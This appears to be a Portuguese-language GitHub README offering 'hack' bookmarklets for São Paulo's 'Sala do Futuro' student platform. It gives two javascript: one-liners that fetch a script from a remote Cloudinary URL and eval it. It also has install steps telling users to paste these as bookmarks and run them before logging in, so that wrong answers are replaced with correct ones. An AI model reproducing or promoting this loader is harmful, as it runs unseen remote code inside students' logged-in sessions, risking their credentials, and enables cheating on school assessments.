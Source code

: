 # 🚀 HCK - PROVA PAULISTA 

### HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### HCK - TAREFAS:
### INSTALAÇÃO:
1. Clique nos três pontos no canto.
2. No canto superior direito e clique na estrela.
3. Clique na mensagem que aparecer embaixo.
4. No campo Nome, escreva qualquer coisa.
5. No campo URL ou Endereço, cole o código:

```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745790408/saladofuturov2.js").then(t=>t.text()).then(eval);
```
### CONTINUAÇÃO:

1. Execute o script antes de **efetuar o Login** no [Sala do Futuro](https://saladofuturo.educacao.sp.gov.br/login-alunos).
2. **Depois de efetuado**, deve ir até a tarefa que você quer fazer.
3. Responda **aleatoriamente** às questões da tarefa e envie.
4. Logo depois, o script irá inserir todas às **respostas corretamente.**

*Obs: O tempo da tarefa depende unicamente de quanto tempo você ficar na página dela antes de enviar.*

### [Discord: Hackermoon](https://discord.gg/k5BFyvbj)

### Créditos:

- [Inacallep](https://github.com/inacallep)

- [Crackingnlearn](https://github.com/crackingnlearn)

- [Miturufu](https://github.com/Miturufu)



